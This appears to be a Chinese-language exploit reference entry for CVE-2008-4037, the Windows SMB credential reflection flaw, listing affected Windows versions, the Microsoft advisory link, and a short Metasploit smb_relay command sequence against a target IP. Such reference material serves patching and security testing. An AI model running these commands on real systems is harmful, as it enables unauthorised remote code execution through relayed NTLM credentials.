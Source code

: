 ### CVE-2008-4037

#### 描述

Microsoft Windows 2000 Gold through SP4, XP Gold through SP3, Server 2003 SP1 and SP2, Vista Gold and SP1, and Server 2008 allows remote SMB servers to execute arbitrary code on a client machine by replaying the NTLM credentials of a client user, as demonstrated by backrush, aka "SMB Credential Reflection Vulnerability." NOTE: some reliable sources report that this vulnerability exists because of an insufficient fix for CVE-2000-0834.

#### 影响版本

| Product             | Version | Update  | Edition | Tested |
| ------------------- | ------- | ------- | ------- | ------ |
| Windows XP          |         | SP2     |         |        |
| Windows XP          |         | SP2     | X64     |        |
| Windows XP          |         | SP3     |         |        |
| Windows XP          |         | Unknown | X64     |        |
| Windows Server 2003 |         | SP1     | Itanium |        |
| Windows Server 2003 |         | SP2     |         |        |
| Windows Server 2003 |         | SP2     | Itanium |        |
| Windows Server 2003 |         | SP2     | X64     |        |
| Windows Server 2003 |         | Unknown | X64     |        |
| Windows Server 2003 |         | SP1     |         |        |
| Windows 2000        | -       | SP4     |         |        |
| Windows Server 2008 | -       |         | X32     |        |
| Windows Server 2008 | -       |         | X64     |        |
| Windows Server 2008 | -       |         | Itanium |        |
| Windows Vista       | -       | SP1     | X64     |        |
| Windows Vista       | -       |         |         |        |
| Windows Vista       | -       |         | X64     |        |
| Windows Vista       | -       | SP1     |         |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2008-4037
```

#### 利用方式

使用msf 测试系统windows server 2003 sp2 x86

```
use exploit/windows/smb/smb_relay
set SMBHOST 192.168.1.14 #目标IP
run
```

![image-20200823142846532](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2008-4037_win2003_x86_msf.png?raw=true)

